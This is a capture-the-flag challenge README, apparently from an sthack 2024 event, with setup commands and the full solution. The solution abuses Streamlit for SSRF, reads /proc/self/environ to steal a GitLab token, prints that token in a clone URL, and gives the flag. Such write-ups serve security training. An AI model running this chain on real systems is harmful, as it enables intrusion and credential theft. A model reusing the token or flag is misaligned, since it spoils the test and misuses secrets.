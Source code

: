 # Stream Is Lit Isnt It

> Unthread my plot, Chain your bugz, and Remember to Have Fun! ^_^

- Medium / Web / Linux
- Sources are given
    - Remove the `Detail` from the readme
    - Censor the `GIT_API_KEY` and `GIT_REPO_URL` in `docker-compose.yml`
---

```bash
# Setup
cd /opt/sthack-2024-challs/stream-is-lit-isnt-it ; docker-compose down --remove-orphans --volumes ; docker-compose up --build --remove-orphans -d

# Solve
# Open http://127.0.0.1/
# Submit http://backend_2:5000/?dump_me=/proc/self/environ
# Use token & git clone https://gitlab.com:glpat-4dQKhn3be6YmzmfzJbyx@gitlab.com/TheLaluka/totaly_safe_and_private_repo.git
# git diff 5eb01b7
# Flag: chain-your-bugz-tozemoonandback-ffs

# Logs
docker-compose logs -f

# Night-Long Auto-Fix
echo '*/30 * * * * root bash -c "cd /opt/sthack-2024-challs/stream-is-lit-isnt-it ; docker-compose down --remove-orphans --volumes ; docker-compose up --build --remove-orphans -d"' | sudo tee -a /etc/crontab
```

# Detail

- Abust StreamLit for SSRF
- Abuse SSRF for Local File Read
- Read /proc/self/environ to get git api_key
- Reuse api_key to clone git repo
- Dig past commits to find the flag
